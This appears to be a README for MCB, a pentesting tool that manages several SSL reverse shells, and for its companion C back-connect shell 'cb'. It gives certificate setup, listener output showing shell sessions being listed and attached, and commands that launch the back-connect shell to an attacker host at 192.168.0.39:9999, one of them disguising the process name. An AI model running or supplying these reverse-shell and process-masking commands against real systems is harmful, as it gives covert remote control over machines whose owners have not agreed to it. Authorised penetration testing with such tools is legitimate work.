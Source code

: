 # MCB ( Multi Connect Back )
mcb is a tool for pentesters who want to get multiples pty over SSL.

First you need to make a certificate named mcb.pem using openssl :

```bash
openssl req -newkey rsa:4096 -nodes -keyout key.pem -x509 -days 365 -out cert.pem
cat cert.pem key.pem > mcb.pem
```

no need to install third party package, mcb use std python3 librairies.

```bash
sh-5.1$ ./mcb 
./mcb <port>
sh-5.1$ ./mcb 9999
MCB listening on 9999
(MCB) 
```
then use the cb binary to connect to mcb and interact with agents:
```bash
new connection from ('127.0.0.1', 42074)
new connection from ('127.0.0.1', 42078)
new connection from ('127.0.0.1', 42080)
new connection from ('127.0.0.1', 42082)
new connection from ('127.0.0.1', 42084)
(MCB) list
0 SSLPTY fd=4 127.0.0.1:42074 => 9999:127.0.0.1
1 SSLPTY fd=5 127.0.0.1:42078 => 9999:127.0.0.1
2 SSLPTY fd=6 127.0.0.1:42080 => 9999:127.0.0.1
3 SSLPTY fd=7 127.0.0.1:42082 => 9999:127.0.0.1
4 SSLPTY fd=8 127.0.0.1:42084 => 9999:127.0.0.1
(MCB) interact 0
~~(__)°> 10:41:48 user@ono $ id
uid=1000(user) gid=1000(user) groups=1000(user),108(vboxusers)
~~(__)°> 10:42:21 user@ono $ 
Detached from fd=4
(MCB) 
```
MCB is like a poor man screen, you can switch between sessions, attaching with interact cmd and detaching with ^D

# CB ( Connect Back )
cb.c is the backconnect shell, you need to install musl-libc dev tools on your computer and clone mbedtls submodule.

```bash
git submodule update --init
make
```
Usage is simple it takes arg from args and env

```
$ bash -c "CHOST=192.168.0.39 CPORT=9999 exec -a myrenamed_process ./cb "
$ ./cb 192.168.0.39 9999
```

